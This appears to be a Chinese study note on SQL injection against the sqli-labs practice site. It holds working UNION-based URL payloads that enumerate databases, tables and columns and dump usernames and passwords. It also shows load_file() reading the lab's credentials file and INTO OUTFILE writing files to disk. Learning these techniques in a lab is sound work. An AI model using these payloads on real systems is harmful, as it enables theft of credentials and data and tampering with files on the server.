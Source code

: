 ## sql注入之高权限注入

![image-20250805150645634](../AppData/Roaming/Typora/typora-user-images/image-20250805150645634.png)

![image-20250805151055597](../AppData/Roaming/Typora/typora-user-images/image-20250805151055597.png)

mysql中存在4个控制权限的表，分别为user表，db表，table_priv表，column_priv表

#### 查询所有数据库名称

![image-20250805163028710](../AppData/Roaming/Typora/typora-user-images/image-20250805163028710.png)

http://sqli-labs/Less-2/index.php?id=99%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata

#### 查询数据库对应的表名

![image-20250805190406274](../AppData/Roaming/Typora/typora-user-images/image-20250805190406274.png)

http://sqli-labs/Less-2/index.php?id=99%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27security%27%20

- `table_schema='security'`（用单引号包裹字符串）

#### 查询表名对应的字段名

![image-20250805185942057](../AppData/Roaming/Typora/typora-user-images/image-20250805185942057.png)

http://sqli-labs/Less-2/index.php?id=99%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27users%27%20

- `table_schema='security'`（用单引号包裹字符串）

#### 查询数据

![image-20250805210512694](../AppData/Roaming/Typora/typora-user-images/image-20250805210512694.png)

 http://sqli-labs/Less-2/index.php?id=99%20union%20select%201,group_concat(username),group_concat(password)%20from%20users%20

### SQL注入之文件读写

 

```
 cd D:\phpstudy_pro\Extensions\MySQL5.7.26\bin
  mysql -u root -p -h 127.0.0.1
```

高版本的MYSQL添加了一个新的特性secure_file_priv，该选项限制了mysql导出文件的权限

**secure_file_priv选项**

```
linux
cat  etc/conf

win
www/mysql / my.ini

```

show global variables like '%secure%'  查看mysql全局变量的配置

![image-20250807181648375](../AppData/Roaming/Typora/typora-user-images/image-20250807181648375.png)

#### 读取文件

使用函数：`load_file()`

后面的路径可以是单引号，0x，char转换的字符。

==注意：路径中斜杠是/不是\。==

一般可以与union中做为一个字段使用，查看config.php(即mysql的密码)，apache配置...

![image-20250807183353309](../AppData/Roaming/Typora/typora-user-images/image-20250807183353309.png)

view-source:http://sqli-labs/Less-2/index.php?id=99%20union%20select%201,%20load_file(%27D:\\phpstudy_pro\\WWW\\sqli-labs\\sql-connections\\db-creds.inc%27),%203 

使用函数：`Into Outfile`（能写入多行，按格式输出）和 `into Dumpfile`（只能写入一行且没有输出格式）

outfile 后面不能接0x开头或者char转换以后的路径，只能是单引号路径

2、知道网站绝对路径

Windows常见：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645161070000/52b8185c15804b098e5832e56952f9d5.png)

Linux常见：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1645161070000/c22c368cda784e5ebb911ff0bbd0fa99.png)

路径获取常见方式：

报错显示，遗留文件，漏洞报错，平台配置文件等

#### 写入文件

使用函数：`Into Outfile`（能写入多行，按格式输出）和 `into Dumpfile`（只能写入一行且没有输出格式）

outfile 后面不能接0x开头或者char转换以后的路径，只能是单引号路径

http://sqli-labs/Less-2/index.php?id=99%20union%20select%201,%27mc%27,3%20Into%20Outfile%20%27d:/d.txt%27--+
